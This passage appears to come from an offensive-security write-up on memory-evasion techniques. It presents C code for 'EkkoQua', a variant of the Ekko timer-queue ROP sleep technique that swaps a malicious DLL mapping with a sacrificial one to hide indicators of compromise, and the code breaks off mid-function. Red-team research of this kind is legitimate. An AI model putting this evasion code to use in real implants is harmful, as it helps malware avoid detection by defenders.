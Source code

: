 once this code is executed the malicious unbacked section with be ready to hold some IOC at the same address the sacrificial DLL was loaded previously. 

### BuonaNotte and it’s already EkkoQua

In this part I take the famous Ekko and I do some shenanigans to include in the ROP chain also functions that take more than four arguments (as we know the Windows calling convention wants the 5th onwards arguments to be passed to the function onto the stack). Why do I do this? Well, if the game here is to unmap/map DLLs, I got to use functions like [MapViewOfFileEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffileex). 

```c
VOID EkkoQua(PVOID ImageBaseDLL, HANDLE sacDllHandle, HANDLE malDllHandle, SIZE_T viewSize) {

    //we have two stack, one bello one brutto
    PDWORD64 newStack = NULL;
    PDWORD64 newStackMal = NULL;
    
    CONTEXT* CtxThread = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* RopUnmapMal = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* RopMapSac = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* RopDelay = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* RopMapMal = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* RopUnmapSac = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));
    CONTEXT* RopSetEvt = (CONTEXT*)(VirtualAlloc(NULL, sizeof(CONTEXT), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE));

    HANDLE  hTimerQueue = NULL;
    HANDLE  hNewTimer = NULL;
    HANDLE  hEvent = NULL;
    PVOID   ImageBase = NULL;
    DWORD   ImageSize = 0;
    DWORD   HeadersSize = 0;
    DWORD   OldProtect = 0;

    PVOID   NtContinue = NULL;
    PVOID   SysFunc032 = NULL;
    PVOID   RtlMoveMemory = NULL;
    PVOID zwMapViewOfSection = NULL;
    hEvent = CreateEventW(0, 0, 0, 0);
    hTimerQueue = CreateTimerQueue();

    NtContinue = GetProcAddress(GetModuleHandleA("Ntdll"), "NtContinue");

    if (CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)RtlCaptureContext, CtxThread, 0, 0, WT_EXECUTEINTIMERTHREAD)) //create timer 
    {
        WaitForSingleObject(hEvent, 0x32); 
        //querying the memory basing on the RSP
        MEMORY_BASIC_INFORMATION mbi;
        if (VirtualQuery((LPVOID)CtxThread->Rsp, &mbi, sizeof(mbi)) == 0) {

            return;
        }
        //allocating memory basing on the region size to hold the copy of the stack
        newStack = (PDWORD64)VirtualAlloc(NULL, mbi.RegionSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```